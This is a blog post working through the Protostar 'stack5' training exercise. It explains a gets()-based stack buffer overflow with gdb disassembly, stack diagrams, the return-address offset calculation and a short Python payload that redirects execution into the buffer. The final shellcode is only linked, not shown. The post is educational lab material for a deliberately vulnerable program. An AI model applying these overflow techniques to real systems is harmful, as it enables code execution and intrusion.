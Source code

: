 ```yaml
---
layout: post
title:  "Protostar Exploit Exercises: Stacks Part Two"
---
```


*If your just joining us, this is the second part of me trying to solve the Protostar
exploit exercises. You can read the [Previous post]({% post_url 2015-09-12-protostar-part-one %})
if you want to.*

I have been struggling with this level for quite some time. Every time I think I got it right,
the memory-corruption gods smack me back down to earth. Previously I've been solving the 
protostar stack-challenges without a complete understanding of how things were happening.

Since then I've read
[this book](http://www.amazon.com/Assembly-Language-Step-Step-Programming/dp/0470497025),
and recently really just sat down allowed myself not to rush through
this challenge.

By writing this post - I mostly tought myself what's going on.

Pro-tip: putting things on the stack moves down in memory, taking things off moves up in memory.

## [stack5](https://exploit-exercises.com/protostar/stack5)

>Stack5 is a standard buffer overflow, this time introducing shellcode.
>
>This level is at /opt/protostar/bin/stack5
>
>Hints
>
> + At this point in time, it might be easier to use someone elses shellcode
> + If debugging the shellcode, use \xcc (int3) to stop the program executing and return to the debugger
> + remove the int3s once your shellcode is done.

Let's have a look at the code.

{% highlight c %}

int main(int argc, char **argv)
{
  char buffer[64]; // array of 64 elements allocated on the stack

  gets(buffer); // fill it with all the things
}
{% endhighlight %}
*Listing 1-0: Excerpt from stack5.c*

Let's have a look in gdb.

~~~
$ gdb -q stack5
(gdb) set disassembly-flavor intel
(gdb) disassemble
~~~
*Listing 1-1: Starting gdb*

{% highlight nasm %}
push ebp                    ; save frame pointer on the stack
mov ebp, esp                ; new frame pointer
and esp, 0xfffffff0         ; align esp to 16 bytes
sub esp, 0x50               ; make room for 80 bytes on the stack
lea eax, [esp+0x10]         ; Load the address of the array into eax
mov DWORD PTR [esp], eax    ; save the address on the stack
call 0x80482e8 <gets@plt>   ; call gets
leave                       ; move ebp into esp & pop ebp
ret                         ; return to caller
{% endhighlight %}
*Listing 1-2: Disassembly of main from stack5*

I made the following simplification of what's going on after the
alignment of esp & before the call to gets. Let's assume for
simplicity that esp is initially 100.

## Step 1

esp is decremented by 80 (hex 50) to make room for the array.

~~~
 20 | | <- esp
 21 | |
 ...
 99 | |
100 | | # esp was pointing here before :)
~~~

## Step 2

esp is adjusted by incrementing it by 16 (-80+16= -64), and it's
saved in the eax register.
   
~~~
 20 | | <- esp
 21 | |
 ...
 35 | |
 36 | | <- eax
~~~

## Step 3

Save the pointer on the stack

~~~
 19 |    |
 20 | 36 | <- esp
 21 |    |
~~~

Here's a couple of screenshots, illustrating in gdb what's going on with the 
actual memory that holds the input.

*Note that a array of 64 `A`s in C still has a length of 65, since the
array is terminated by null.*

![Feeding the program 64 As]({{ site-url }}/assets/post_images/protostar_part2_63A.png)
*Figure 1-0: Feeding the program 63 As*
 
![Feeding the program 64 As]({{ site-url }}/assets/post_images/protostar_part2_64A.png)
*Figure 1-1: Feeding the program 64 As*

![Feeding the program 65 As]({{ site-url }}/assets/post_images/protostar_part2_65A.png)
*Figure 1-2: Feeding the program 65 As*

As you can see, our array is slowly eating away at the data on the
stack, in our case `0xbffff7c0`.

Those pieces of bits are popped of the stack in the `leave`
instruction. The following `ret` instruction basically pops the top of the stack
into eip & execution procedes at the new location pointed at by eip.

We can find out what part of the stack we need to overwrite by
examining the top of the stack just before executing the `ret` instruction.

![Top of the stack before ret]({{ site-url }}/assets/post_images/protostar_part2_before_ret.png)

*Figure 1-3: Examining the top of the stack before executing `ret`*

How many bytes do we need to feed the program to overwrite that piece of memory?

We just subtract our goal with the address of our array & get how many bytes we need to feed.

0xbffff7c0 - 0xbffff770 = 0x50 (decimal 80)

That's neat!

A array of 80 characters would completely overwrite the address popped by ret, Right?

![Success! (I think)]({{ site-url }}/assets/post_images/protostar_part2_experiment.png)

*Figure 1-4: Overwriting the instruction pointer by feeding the program 80 `A`s*

Right.

Let's place some instructions in the buffer, along with some garbage, ending with
the address which points to our buffer. I used some python to generate the payload.

{% highlight python %}
# Just some int 3 operations
shellcode = '\xcc\xcc\xcc\xcc'
# location can be automagically generated by python via
# struct module. Like so:
#  import struct
#  struct.pack(0xbffff780)
location = '\x80\xf7\xff\xbf'
print(shellcode + 'A'*72 + location)
{% endhighlight %}

When fed into the program, our shellcode executes - It does absolutely nothing.
But it's there, executing :)

So we're close, but we still need to figure out some shellcode that we would want to use.

This, hopefully is the easy part. We just go to google, type shellcode & press enter.

I stumbled upon [this](https://www.exploit-db.com/exploits/37289/) over at exploit-db.

Since the shellcode's length is larger than our 4 instructions, we adjust the amount of `A`s
we're feeding & it should work just fine.

![Hurrah!]({{ site-url }}/assets/post_images/protostar_part2_success.png)

Thanks for reading.

+ Shoutouts to [hasherezade](https://twitter.com/hasherezade)

+ Great [paper](http://www.dbp-consulting.com/tutorials/debugging/linuxProgramStartup.html) on how Linux programs actually start 













